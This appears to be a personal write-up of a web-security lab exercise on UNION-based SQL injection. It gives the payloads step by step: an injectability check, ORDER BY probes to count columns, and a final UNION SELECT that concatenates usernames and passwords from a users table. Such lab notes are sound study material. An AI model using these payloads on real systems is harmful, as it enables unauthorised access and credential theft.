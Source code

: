 # Lab 10 – SQLi (UNION): Retrieving multiple values in a single column

**Goal:**  
Get multiple values (username + password) to appear in a *single* column via a UNION-based SQL injection, so I can read both at once.

## What I did
- first I checked it was injectable by chucking `'--` in the category param (lab already says its vuln, but i like to confirm).
- used `ORDER BY` to find the column count:
  - `' ORDER BY 1--` -> OK
  - `' ORDER BY 2--` -> OK
  - `' ORDER BY 3--` -> error  
so there are 2 columns
- tested that text prints with a quick union test: ' UNION SELECT NULL, 'a' -- worked
- then I concatenated username and password into one printable column (the lab expected `||` concatenation): ' UNION SELECT NULL, username || '~' || password FROM users--
i could see both values in one column

NO NOTES

